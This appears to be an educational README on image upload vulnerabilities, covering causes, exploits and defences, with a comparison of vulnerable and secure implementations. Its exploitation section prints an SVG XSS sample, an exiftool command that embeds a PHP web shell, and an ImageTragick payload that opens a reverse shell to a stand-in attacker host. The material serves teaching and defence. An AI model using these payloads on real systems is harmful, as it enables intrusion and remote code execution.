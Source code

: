 # Image File Upload Vulnerability

## What is an Image File Upload Vulnerability?

An Image File Upload Vulnerability occurs when a web application allows users to upload image files without implementing proper security controls. Although image uploads may seem innocuous compared to executable files, they can pose significant security risks when not handled correctly.

## Why Image Upload Vulnerabilities Occur

1. **Insufficient File Type Validation**
   - Only checking file extensions (.jpg, .png, etc.) without verifying actual content
   - Relying solely on client-provided Content-Type headers which can be easily spoofed
   - Not validating that uploaded files are actually valid images

2. **Unsafe Storage Practices**
   - Using user-provided filenames directly (enabling path traversal attacks)
   - Storing files in web-accessible directories with inappropriate permissions
   - Not using random/unique filenames to prevent overwriting or guessing attacks

3. **Insecure Display and Handling**
   - Not removing metadata that might contain malicious content
   - Not re-encoding images to strip potentially embedded malicious content
   - Unsafe handling of SVG files (which can contain JavaScript)
   - Not setting proper Content-Type and Content-Disposition headers when serving files

4. **Resource Constraints Issues**
   - No file size limits, allowing potential DoS attacks via large images
   - No validation for image dimensions or compression ratio (decompression bombs)

## Exploitation Techniques

### 1. SVG XSS Attacks
SVG files are XML-based and can include script tags. If uploaded and then displayed inline, they can execute JavaScript within the user's browser:

```xml
<svg xmlns="http://www.w3.org/2000/svg" onload="alert('XSS')">
  <circle cx="50" cy="50" r="40" fill="red"/>
</svg>
```

### 2. Content-Type Spoofing
Attackers can upload server-side script files with image extensions or altered MIME types:

```
file.php.jpg or file.jpg (with PHP content inside)
```

If the server processes the file based on content rather than extension, or if misconfigured to execute scripts with double extensions, this can lead to remote code execution.

### 3. Metadata Exploits
Image files can contain metadata (EXIF, comments, etc.) that might be processed insecurely:

```
# Injecting PHP code into EXIF data
exiftool -Comment="<?php system(\$_GET['cmd']); ?>" malicious.jpg
```

If the application extracts and displays this metadata without sanitization, or if a local file inclusion vulnerability exists, this can be exploited.

### 4. Image Processing Library Exploits
Vulnerabilities in image processing libraries (like ImageMagick's "ImageTragick") can be exploited by specially crafted files:

```
# Example of malicious MVG file disguised as PNG
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|bash -i >& /dev/tcp/attacker.com/4444 0>&1")'
pop graphic-context
```

### 5. Polyglot Files
Files that are valid as multiple types simultaneously (e.g., both a valid JPG and a valid PHP file) can bypass security checks.

## Prevention Methods

Our secure implementation demonstrates best practices for preventing image upload vulnerabilities:

### 1. Strict Validation
- **Whitelist approach** to allowed extensions (.jpg, .jpeg, .png, .gif)
- **Content validation** using library functions like `ImageIO.read()` to verify it's actually an image
- **Size limitations** (e.g., 5MB max) to prevent DoS attacks

### 2. Safe Storage
- **Random filename generation** with UUID to prevent path traversal and overwriting
- **Separate storage directories** outside web root when possible
- **Proper permissions** on uploaded files and directories

### 3. Image Processing
- **Re-encoding images** to strip any embedded malicious content
- **Metadata removal** to eliminate potentially dangerous information
- **Special handling for SVG files** (either disallowing them or sanitizing their content)

### 4. Secure Serving
- **Content-Type validation** when serving files
- **Appropriate Content-Disposition headers** (`inline` for safe images, `attachment` for questionable ones)
- **Additional security headers** like Content-Security-Policy to mitigate some attacks

## Comparison of Implementations

| Security Control | Vulnerable Implementation | Secure Implementation |
|------------------|---------------------------|------------------------|
| File Type Validation | Basic extension check only | Extension whitelist + content validation |
| Filename Handling | Uses original filename | Generates random UUID filename |
| Content Verification | None | Verifies file is a valid image |
| Size Limits | None | 5MB maximum |
| Processing | None | Re-encodes image to remove threats |
| Content-Type Headers | Based on extension only | Validated based on actual content |
| Content-Disposition | Not set | Set appropriately | 